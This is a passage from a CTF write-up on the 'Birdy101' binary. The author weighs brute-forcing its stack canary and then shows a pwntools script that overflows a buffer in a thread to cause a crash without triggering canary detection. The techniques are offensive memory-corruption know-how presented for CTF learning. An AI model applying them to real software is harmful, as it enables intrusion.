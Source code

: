 sadly for us, the value of `name` is initiated as  `buffer` (pointer to the first char).
That means that there is a buffer of `256` characters above the location the `name` variable holds (aka, the `buffer` variable), meaning that the location of the canary is bigger than `location_of_buffer + 256` or, in other words, more than one byte needs to be changed :(

using `gdb` I saw that the  stack canary's location always ends with an 8
(I put a breakpoint at the end of  `register_user` and looked at the location of `$rbp-24`)
*for example* `0x7fffffffe208`.

That means that we need to bruteforce one and a half bytes, or in other words 12 bits.

That's a `1/4096` chance!
I didn't want to spam the servers so I opened a ticket and turns out that's not the intended solution. Sad :(

## Exploiting the `vuln/notepad` functions
One weird thing that happens in the `vuln` function is the initiation of a new pthread. I started searching for `pthread canary bof bypass` or other bullshit on google and I found stuff I didn't really understand about changing the canary and overwriting `TLS`, but than I realised that I didn't even try to run the function and overflow it!

I created a quick script
```python
from pwn import *

file = "./Birdy101"

elf = ELF(file)


con = process("./Birdy101")

# We still don't use it. just something that wont crash
con.send(p64(elf.symbols["got.printf"]))

con.send(cyclic(0x1000))

con.interactive()
```

And something super interesting happend, I didn't get a `*** stack smashing detected ***: terminated` message, and the program ended with `SIGSEGV`
```bash
$ python exploit.py
[*] '/tmp/a/Birdy101'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './Birdy101': pid 13298
[*] Switching to interactive mode
What is your name? Welcome 0\x10@
[Under construction] - This section is underconstruction and only allows a single note to be kept in memory
Enter the contents you want to store: [*] Got EOF while reading in interactive
$
[*] Process './Birdy101' stopped with exit code -11 (SIGSEGV) (pid 13298)
[*] Got EOF while sending in interactive
```
